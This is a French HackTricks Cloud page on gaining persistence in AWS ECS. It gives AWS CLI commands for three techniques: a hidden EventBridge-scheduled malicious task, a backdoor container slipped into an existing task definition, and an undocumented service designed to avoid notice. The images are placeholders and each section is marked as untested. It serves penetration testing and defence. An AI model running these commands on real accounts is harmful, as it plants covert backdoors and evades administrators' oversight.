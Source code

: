 # AWS - Persistance ECS

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## ECS

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-ecs-enum.md" %}
[aws-ecs-enum.md](../aws-services/aws-ecs-enum.md)
{% endcontent-ref %}

### Tâche ECS périodique cachée

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant peut créer une tâche ECS périodique cachée en utilisant Amazon EventBridge pour **planifier l'exécution d'une tâche malveillante périodiquement**. Cette tâche peut effectuer une reconnaissance, exfiltrer des données ou maintenir une persistance dans le compte AWS.

```bash
# Créer une définition de tâche malveillante
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Créer une règle Amazon EventBridge pour déclencher la tâche périodiquement
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Ajouter une cible à la règle pour exécuter la tâche ECS malveillante
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
  {
    "Id": "malicious-ecs-task-target",
    "Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
    "RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
    "EcsParameters": {
      "TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
      "TaskCount": 1
    }
  }
]'
```

### Conteneur de porte dérobée dans la définition de tâche ECS existante

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant peut ajouter un **conteneur de porte dérobée furtif** dans une définition de tâche ECS existante qui s'exécute aux côtés de conteneurs légitimes. Le conteneur de porte dérobée peut être utilisé pour la persistance et la réalisation d'activités malveillantes.

```bash
# Mettre à jour la définition de tâche existante pour inclure le conteneur de porte dérobée
aws ecs register-task-definition --family "existing-task" --container-definitions '[
  {
    "name": "legitimate-container",
    "image": "legitimate-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  },
  {
    "name": "backdoor-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": false
  }
]'
```

### Service ECS non documenté

{% hint style="info" %}
TODO: Test
{% endhint %}

Un attaquant peut créer un **service ECS non documenté** qui exécute une tâche malveillante. En définissant le nombre souhaité de tâches à un minimum et en désactivant la journalisation, il devient plus difficile pour les administrateurs de remarquer le service malveillant.

```bash
# Créer une définition de tâche malveillante
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
  {
    "name": "malicious-container",
    "image": "malicious-image:latest",
    "memory": 256,
    "cpu": 10,
    "essential": true
  }
]'

# Créer un service ECS non documenté avec la définition de tâche malveillante
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Partagez vos astuces de piratage en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>